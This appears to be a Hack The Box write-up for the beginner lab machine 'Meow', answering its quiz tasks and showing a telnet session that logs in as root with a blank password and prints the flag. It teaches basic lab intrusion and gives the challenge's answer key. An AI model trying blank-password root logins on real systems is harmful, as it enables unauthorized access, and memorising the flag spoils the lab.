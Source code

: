 ```yaml
---
title: "HTB: Meow - Write-Up"
description: "A walkthrough for the HTB machine Meow, focusing on gaining root access and retrieving the flag."
date: 2024-07-29
categories: [CTF, HackTheBox]
tags: [privilege escalation, telnet]
image:
  path: thbnls/meow.png
---
```


## TARGET MACHINE IP ADDRESS

```
10.129.36.124
```

---

### TASK 1

What does the acronym VM stand for?

**Ans:**
```
Virtual Machine
```

---

### TASK 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

<details>
<summary>Task 2 Hint</summary>
It's also the name of the location in any airport where passengers transfer between ground transportation and the facilities that allow them to board their flight.
</details>

**Ans:**
```
Terminal
```

---

### TASK 3

What service do we use to form our VPN connection into HTB labs?

<details>
<summary>Task 3 Hint</summary>
It's an open source VPN service which comes preinstalled on most Linux-based Operating Systems.
</details>

**Ans:**
```
Openvpn
```

---

### TASK 4

What tool do we use to test our connection to the target with an ICMP echo request?

<details>
<summary>Task 4 Hint</summary>
It's also half of the name of a very popular sport, also known as table tennis.
</details>

**Ans:**
```
Ping
```

---

### TASK 5

What is the name of the most common tool for finding open ports on a target?

<details>
<summary>Task 5 Hint</summary>
Short for Network Mapper, a popular network host scanning tool.
</details>

**Ans:**
```
Nmap
```

---

### TASK 6

What service do we identify on port 23/tcp during our scans?

<details>
<summary>Task 6 Hint</summary>
This service runs on port 23/tcp by default, meaning we can research the port on Google and receive the correct result easily.
</details>

**Ans:**
```
telnet
```

---

### TASK 7

What username is able to log into the target over telnet with a blank password?

<details>
<summary>Task 7 Hint</summary>
It is popularly known as the administrative account for any Linux-based Operating System, residing at the highest level of privilege on any such system.
</details>

**Ans:**
```
root
```

---

### SUBMIT FLAG

Submit root flag:

```bash
┌──(root㉿neo)-[~]
└─# telnet 10.129.36.124 -l root
Trying 10.129.36.124...
Connected to 10.129.36.124.
Escape character is '^]'.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 24 Jul 2024 07:53:52 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             137
  Users logged in:       0
  IPv4 address for eth0: 10.129.36.124
  IPv6 address for eth0: dead:beef::250:56ff:feb0:ffca

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

^Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# ^
-bash: !!: event not found
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
```

**Flag:**
```
b40abdfe23665f766f9c61ecba8a4c19
```
